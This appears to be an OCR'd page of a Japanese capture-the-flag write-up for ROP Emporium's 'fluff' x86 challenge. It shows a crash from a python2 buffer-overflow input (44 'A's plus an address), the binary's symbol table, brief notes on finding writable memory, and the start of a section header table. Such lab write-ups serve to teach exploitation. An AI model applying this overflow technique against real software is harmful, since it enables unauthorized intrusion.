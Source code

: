 You know changing these strings means I have to rewrite my solutions...
> Thank you!
fluff by ROP Emporium
x86

You know changing these strings means I have to rewrite my solutions...
> Thank you!
fish: Process 24269, './fluff32' from job 2, 'python2 -c "print 'A'*44 + '\xb…' terminated by signal SIGSEGV (Address boundary error)
```

```
0804a020 B __bss_start
0804a020 b completed.7283
0804a018 D __data_start
0804a018 W data_start
08048450 t deregister_tm_clones
08048430 T _dl_relocate_static_pie
080484d0 t __do_global_dtors_aux
08049f00 d __do_global_dtors_aux_fini_array_entry
0804a01c D __dso_handle
08049f04 d _DYNAMIC
0804a020 D _edata
0804a024 B _end
080485c4 T _fini
080485d8 R _fp_hw
08048500 t frame_dummy
08049efc d __frame_dummy_init_array_entry
08048740 r __FRAME_END__
0804a000 d _GLOBAL_OFFSET_TABLE_
         w __gmon_start__
080485ec r __GNU_EH_FRAME_HDR
08048378 T _init
08049f00 d __init_array_end
08049efc d __init_array_start
080485dc R _IO_stdin_used
080485c0 T __libc_csu_fini
08048560 T __libc_csu_init
         U __libc_start_main@@GLIBC_2.0
08048506 T main
         U print_file
         U pwnme
08048543 t questionableGadgets
08048490 t register_tm_clones
080483f0 T _start
0804a020 D __TMC_END__
0804852a t usefulFunction
08048440 T __x86.get_pc_thunk.bx
```

print_fileが何をしてるのか見てくる

write4と変わらんので見なくてヨシ(๑•̀ㅂ•́)و✧

メモリに書き込まなきゃいけないので、

書き込める場所を探す

```
Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048154 000154 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048168 000168 000020 00   A  0   0  4
  [ 3] .note.gnu.bu[...] NOTE            08048188 000188 000024 00   A  0   0  4